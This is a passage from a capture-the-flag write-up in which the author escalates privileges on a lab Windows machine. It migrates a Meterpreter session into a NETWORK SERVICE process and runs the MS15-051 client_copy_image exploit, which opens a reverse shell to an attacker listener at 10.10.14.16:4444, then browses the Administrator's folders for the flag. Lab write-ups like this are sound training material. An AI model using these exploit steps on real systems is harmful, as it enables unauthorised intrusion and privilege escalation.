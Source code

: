 IppSec speculates that we are likely in the rundll32.exe service. I suppose I can tell this in the future by checking the User and Path columns. There is no data in the User column for the rundll32.exe service but there is for the other service we want to migrate to, the davcdata.exe:

```
(Meterpreter 1)(c:\Documents and Settings) > migrate 2112
[*] Migrating from 2440 to 2112...
[*] Migration completed successfully.
(Meterpreter 1)(C:\WINDOWS\system32) > getuid
Server username: NT AUTHORITY\NETWORK SERVICE

```

This confirms we were in rundll32.exe and now we have the tokens to run the previous exploit.

So, we background this session and run the client\_copy\_image exploit:

```
(Meterpreter 1)(C:\WINDOWS\system32) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> run

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 200 launched.
[*] Reflectively injecting the DLL into 200...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.16:4444 -> 10.10.10.15:1031) at 2024-02-01 17:30:18 -0800

(Meterpreter 2)(C:\WINDOWS\system32) > 
```

Now we hunt for the flag!

```
(Meterpreter 2)(C:\) > cd Documents\ and\ Settings\\
(Meterpreter 2)(C:\Documents and Settings) > cd Administrator\\
(Meterpreter 2)(C:\Documents and Settings\Administrator) > dir
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040555/r-xr-xr-x  0       dir   2017-04-12 07:12:18 -0700  Application Data
040777/rwxrwxrwx  0       dir   2017-04-12 11:51:24 -0700  Cookies
040777/rwxrwxrwx  0       dir   2017-04-12 07:28:57 -0700  Desktop
040555/r-xr-xr-x  0       dir   2017-04-12 07:12:19 -0700  Favorites
040777/rwxrwxrwx  0       dir   2017-04-12 06:42:54 -0700  Local Settings
040555/r-xr-xr-x  0       dir   2017-04-12 07:12:20 -0700  My Documents
100666/rw-rw-rw-  786432  fil   2021-09-16 04:54:52 -0700  NTUSER.DAT
040777/rwxrwxrwx  0       dir   2017-04-12 06:42:54 -0700  NetHood
040777/rwxrwxrwx  0       dir   2017-04-12 06:42:54 -0700  PrintHood
040555/r-xr-xr-x  0       dir   2017-04-12 12:15:43 -0700  Recent
040555/r-xr-xr-x  0       dir   2017-04-12 07:12:17 -0700  SendTo
040555/r-xr-xr-x  0       dir   2017-04-12 06:42:54 -0700  Start Menu
100666/rw-rw-rw-  0       fil   2017-04-12 06:44:12 -0700  Sti_Trace.log
040777/rwxrwxrwx  0       dir   2017-04-12 06:42:54 -0700  Templates
040777/rwxrwxrwx  0       dir   2017-04-12 11:48:10 -0700  UserData
100666/rw-rw-rw-  1024    fil   2021-09-16 04:54:52 -0700  ntuser.dat.LOG
100666/rw-rw-rw-  178     fil   2021-09-16 04:54:52 -0700  ntuser.ini

(Meterpreter 2)(C:\Documents and Settings\Administrator) > cd Desktop
(Meterpreter 2)(C:\Documents and Settings\Administrator\Desktop) > dir
Listing: C:\Documents and Settings\Administrator\Desktop
```